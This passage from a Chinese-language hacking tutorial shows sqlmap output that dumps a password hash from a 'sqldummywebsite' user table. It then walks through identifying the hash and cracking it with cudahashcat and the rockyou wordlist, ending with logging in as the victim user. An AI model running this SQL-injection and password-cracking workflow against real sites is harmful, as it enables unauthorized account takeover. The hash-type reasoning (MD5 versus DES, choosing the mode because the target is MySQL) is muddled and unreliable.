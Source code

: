 ```
[10:59:15] [INFO] the SQL query used returns 1 entries
[10:59:17] [INFO] retrieved: 24iYBc17xK0e.
[10:59:18] [INFO] analyzing table dump for possible password hashes
Database: sqldummywebsite
Table: user_info
[1 entry]
+---------------+
| user_password |
+---------------+
| 24iYBc17xK0e. |
+---------------+
```

虽然我们得到了密码字段的值，但是却是密码的 HASH 值，现在我们需要解密这个密码了。我之前已经探讨过在 Kali Linux 上如何解密 MD5、phpBB、MySQL 和 SHA-1。

你可以参考：

[http://www.blackmoreops.com/2014/03/26/cracking-md5-phpbb-mysql-and-sha1-passwords-with-hashcat/](http://www.blackmoreops.com/2014/03/26/cracking-md5-phpbb-mysql-and-sha1-passwords-with-hashcat/)

下面简要地介绍如何使用 hashcat 来破解 MD5。

0x07 破解密码
---------

现在密码字段的值是 24iYBc17xK0e ，你首先应当判断 HASH 的类型。

### a：识别 HASH 类型

幸运地是，Kali Linux 提供了可以用来鉴别 HASH 类型的工具，只需要命令行下敲入命令:

Hash-identifier

然后根据提示提供 HASH 值就可以了：

![(https://wooyun.js.org/images_result/images/2014052915061762603.png) 

所以这是一个 DES(Unix) HASH。

【PS：实际中 HASH 加密使用几种形式，如 * nix 系统、MD5(Unix) 等，详细内容可以参考 HASH 加密类型传送门：[http://zone.wooyun.org/content/2471](http://zone.wooyun.org/content/2471)】

### b：使用 cudahashcat 破解 HASH

首先我们必须知道 DES HASH 使用的代码，运行命令：

```
cudahashcat --help | grep DES
```

【PS：这里的 cudahashcat 是借助 GPU 进行破解的工具，下面提到的 oclHashcat 也是同样的工具，详细介绍与用法可以参考 HASHCAT 搜索吧】

代码要么是 1500 要么是 3100，因为目标是一个 MySQL 数据库，所以一定是 1500. 我运行的电脑使用的是 NVDIA 显卡，因此我可以使用 cudaHashcat；我的笔记本是 AMD 显卡，那么我就只能使用 oclHashcat 破解 MD5. 如果你运行在 VirtualBox 或者 VMWare 上，你既不能使用 cudahashcat 也不能使用 oclhashcat，你必须安装 Kali Linux。

我将 HASH 值存储在 DES.hash 文件中，然后运行命令：

```
cudahashcat -m 1500 -a 0 /root/sql/DES.hash /root/sql/rockyou.txt
```

现在我们得到了破解的密码：abc123，接下来我们就可以使用这个用户的身份登录了。
